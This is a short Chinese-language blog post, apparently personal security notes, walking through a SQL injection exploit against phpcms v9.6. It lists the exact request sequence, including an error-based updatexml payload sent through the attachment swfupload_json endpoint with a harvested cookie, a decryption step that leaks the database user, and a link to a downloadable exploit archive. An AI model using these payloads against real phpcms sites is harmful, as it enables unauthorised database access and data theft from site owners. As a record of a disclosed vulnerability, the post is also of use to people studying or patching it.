 ```yaml
---
title: "phpcms SQL 注入"
date: 2018-02-03T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['php','sqli']
categories: ['CMS']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


[phpcms v9.6 SQL 注入](https://zhuanlan.zhihu.com/p/26263513)

<!--more-->

`/index.php?m=wap&c=index&a=init&siteid=1`

获取 set-cookie 的值

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/01/1517463975.jpg)

`/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26id=%*27%20and%20updatexml%281%2Cconcat%281%2C%28user%28%29%29%29%2C1%29%23%26m%3D1%26f%3Dhaha%26modelid%3D2%26catid%3D7%26`

post 传入 userid_flash 内容是刚刚获取到的 cookie

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/01/1517464021.jpg)

如果不成功的话 在 header 里面加上

`Content-Type: application/x-www-form-urlencoded`

复制 set-cookie 里的 json

`/index.php?m=content&c=down&a_k=json`

解密

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/01/1517464141.jpg)

`root@localhost`

v9sql exp

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/01/1517464259.jpg)

[v9sql.zip](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/01/1517464275.zip)